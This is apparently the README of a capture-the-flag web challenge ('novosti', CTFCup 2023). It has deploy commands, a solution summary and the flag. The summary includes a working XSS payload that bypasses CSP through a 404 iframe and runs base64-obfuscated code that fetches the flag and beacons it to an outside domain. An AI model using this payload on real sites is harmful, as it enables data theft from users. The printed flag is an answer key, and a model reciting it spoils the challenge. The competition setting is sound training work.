# web | novosti

![novosti share page](./screenshots/novosti.png)

## Information

Мы думаем над тем, чтобы запустить свою собственную газету и новостной сайт, но не хотим связываться с новостными агенствами,
поэтому мы решили получать новости из первоисточника - очевидцей самих новостей!

[https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru](https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru)

## Deploy

```sh
cd deploy
NOVOSTI_FLAG="ctfcup{flag}" docker compose -p web-novosti up --build -d
```

## Public

Provide zip file: [public/novosti.zip](public/novosti.zip).

## TLDR

XSS, use iframe leading to 404 in order to bypass CSP

```html
<script>
  const iframe = document.createElement("iframe");
  iframe.src = "/404";
  document.body.appendChild(iframe);
  setTimeout(() => {
    iframe.contentWindow.document.body.innerHTML = `<img src=x onerror="eval(atob('ZmV0Y2goImh0dHA6Ly9maWxlczo4MDgwL2ZsYWciKS50aGVuKHI9PnIudGV4dCgpKS50aGVuKHQ9Pm5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwOi8vcmVuYm91LnJ1Iix0KSk7'))" />`;
  }, 1000);
</script>
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

https://novosti-3d5d54b8c9f9f81aabcf60563021845f.ctfcup-2023.ru

## Cloudflare

Yes

## Flag

ctfcup{b4by-1fr4m3-x55-a4371ea843fc145f}
